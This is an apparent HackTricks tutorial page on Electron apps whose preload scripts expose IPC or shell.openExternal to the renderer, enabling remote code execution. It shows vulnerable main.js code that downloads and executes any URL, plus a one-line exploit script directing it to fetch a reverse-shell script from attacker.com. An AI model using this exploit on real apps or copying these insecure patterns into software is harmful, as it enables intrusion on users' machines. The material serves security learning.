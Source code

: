 

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


If the preload script exposes an IPC endpoint from the main.js file, the renderer process will be able to access it and if vulnerable, a RCE might be possible.

**All these examples were taken from here** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Check the video for further information.

# Example 1

Check how the `main.js` listens on `getUpdate` and will **download and execute any URL** passed.\
Check also how `preload.js` **exposes any IPC** event from main.

```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
	console.log('getUpdate: ' + url)
	mainWindow.webContents.downloadURL(url)
	mainWindow.download_url = url
});
  
mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
	console.log('downloads path=' + app.getPath('downloads'))
	console.log('mainWindow.download_url=' + mainWindow.download_url);
	url_parts = mainWindow.download_url.split('/')
	filename = url_parts[url_parts.length-1]
	mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
	console.log('downloadPath=' + mainWindow.downloadPath)
	// Set the save path, making Electron not to prompt a save dialog.
	item.setSavePath(mainWindow.downloadPath)

	item.on('updated', (event, state) => {
		if (state === 'interrupted') {
			console.log('Download is interrupted but can be resumed')
		}
		else if (state === 'progressing') {
			if (item.isPaused()) console.log('Download is paused')
			else console.log(`Received bytes: ${item.getReceivedBytes()}`)
		}
	})

	item.once('done', (event, state) => {
		if (state === 'completed') {
			console.log('Download successful, running update')
			fs.chmodSync(mainWindow.downloadPath, 0755);
			var child = require('child_process').execFile;
			child(mainWindow.downloadPath, function(err, data) {
				if (err) { console.error(err); return; }
				console.log(data.toString());
			});
      			}
		else console.log(`Download failed: ${state}`)
	})
}) 
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
	ipcRenderer.send(event, data);
};
```

Exploit:

```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```

# Example 2

If the preload script exposes directly to the renderer a way t call shell.openExternal its possible to obtains RCE

```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
	shell.openExternal(url);
};
```

# Example 3

Is the preload script exposes ways to completely communicate with the main process, an XSS will be able to send any event. The impact of this depends on what the main process exposes in terms of IPC.

```javascript
window.electronListen = (event, cb) => {
	ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
	ipcRenderer.send(event, data);
};
```


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


